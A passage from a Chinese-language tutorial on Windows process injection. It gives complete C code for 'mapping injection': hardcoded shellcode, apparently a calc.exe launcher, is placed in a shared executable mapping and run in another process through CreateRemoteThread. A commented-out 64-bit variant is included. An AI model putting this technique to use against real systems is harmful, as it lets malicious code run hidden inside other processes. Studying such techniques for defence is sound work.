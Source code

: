 ### 代码实现

参考：https://idiotc4t.com/code-and-dll-process-injection/mapping-injection

```c
#include<stdio.h>
#include<windows.h>
#pragma comment(lib, "ntdll.lib")
#pragma comment (lib, "OneCore.lib")

unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8\xA0\x12\xC4\x76\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8\xF0\xE1\xC7\x76\xFF\xD0\x33\xC0\x50\xB8\x80\x59\xC4\x76\xFF\xD0\x90\x90\xC3";

int main()
{
	HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, 0, sizeof(shellcode), NULL);
	if (hMapping == 0)
		return 0;

	LPVOID lpMapAddress = MapViewOfFile(hMapping, FILE_MAP_WRITE, 0, 0, sizeof(shellcode));
	if (lpMapAddress == 0)
		return 0;

	memcpy((PVOID)lpMapAddress, shellcode, sizeof(shellcode));

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 22508);
    // 打开句柄为25032的进程，并返回句柄。PROCESS_ALL_ACCESS表示需要完全访问权限。

	LPVOID lpMapAddressRemote = MapViewOfFile2(hMapping, hProcess, 0, NULL, 0, 0, PAGE_EXECUTE_READ);
	// 将映射对象映射到句柄为hProcess的进程的地址空间，以便在该进程中执行代码。PAGE_EXECUTE_READ表示需要执行和读取权限。
	HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpMapAddressRemote, NULL, 0, NULL);
	/*下面的代码仅适合于64位的程序
    HANDLE hThread = NULL;
	LPVOID lpParameter = NULL;
	RtlCreateUserThread(hProcess, NULL, FALSE, 0, 0, 0, lpMapAddress, lpParameter, &hThread, NULL);
    */
	UnmapViewOfFile(lpMapAddress);
	CloseHandle(hMapping);
	return 0;
}
```



## 4、覆盖入口点注入
